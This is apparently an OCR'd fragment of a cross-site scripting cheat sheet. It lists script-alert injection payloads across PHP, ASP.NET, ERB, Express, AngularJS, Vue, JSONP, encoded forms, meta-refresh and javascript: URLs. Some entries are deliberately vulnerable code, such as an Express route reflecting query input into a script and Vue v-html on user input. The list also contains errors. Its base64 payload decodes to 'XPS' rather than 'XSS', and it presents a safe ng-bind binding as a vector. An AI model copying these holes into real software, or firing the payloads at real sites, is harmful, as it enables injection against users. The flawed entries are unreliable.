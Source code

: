 <?php echo '<script>alert("XSS")</script>'; ?>


2. ASP.NET:

<%= "<script>alert('XSS')</script>" %>


3. Ruby on Rails (ERB):

<%= "<script>alert('XSS')</script>".html_safe %>


4. Node.js (Express):

app.get('/input', (req, res) => {
    const input = req.query.input;
    res.send(`<script>alert('${input}')</script>`);
});


5. AngularJS:

<div ng-bind="userInput"></div>


6. Vue.js:

<div v-html="userInput"></div>



JSON/JavaScript Objects

1. JSON:

{"data": "<script>alert('XSS')</script>"}


2. JSONP: callbackFunction("<script>alert('XSS')</script>")



Encoded Payloads

1. URL-encoded: %3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E


2. HTML-encoded: &lt;script&gt;alert(&#39;XSS&#39;)&lt;/script&gt;



Other Techniques

1. Meta Tags:

<meta http-equiv="refresh" content="0; url=javascript:alert('XSS');">


2. Form Action:

<form action="javascript:alert('XSS')">
    <input type="submit" value="Submit">
</form>


3. Base64 Encoded: data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFBTJyk8L3NjcmlwdD4=

